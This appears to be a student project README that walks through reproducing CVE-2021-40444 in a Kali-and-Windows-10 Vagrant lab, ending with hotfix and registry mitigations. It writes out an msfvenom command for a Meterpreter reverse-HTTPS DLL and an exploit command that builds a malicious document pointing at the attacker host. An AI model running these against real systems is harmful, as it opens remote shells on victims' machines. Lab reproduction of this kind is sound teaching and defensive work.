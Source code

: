 # TIC4301_Project
TIC4301 Project - CVE-2021-40444

Download the following vagrant boxes: \
Kali  -  https://drive.google.com/file/d/1RegQcT2jjFoaQRgLjXDYl4iS0HNt_mU2/view?usp=sharing \
Win10 -  https://drive.google.com/file/d/1zcLertRoI-FrHDkRq1NO-KHaF88bMv6e/view?usp=sharing

Import the boxes with the following commands through vagrant:
  1. vagrant box add kali_package.box
  2. vagrant box add victim_package.box
  3. vagrant init kali_package.box
  4. vagrant init victim_package.box
  5. vagrant up

Setup (win10):
  1. In the win10 box, log in as administrator with the password vagrant.
  2. Right click script.ps1 on the desktop and run with powershell. (Leave this open)
  3. Run ipconfig.exe and obtain the address for this host.

Setup (Kali):
1. cd Desktop/CVE-2021-40444.
2. generate your malicious dll with msfvenom. # msfvenom -p windows/x64/meterpreter/reverse_https LHOST=eth1 LPORT=443 -f dll -o test/shell.dll
3. start a listener in metasploit.
4. generate the malicious document. # python3 exploit.py generate test/calc.dll http://<kali IP>
  5. visit http://<win 10 IP>/upload and upload the file.
  6. listen for the shell.
  
Mitigations:
  1. Install KB5005565 hotfix.
  2. Edit windows registry with patch.reg in the repository.
  
  
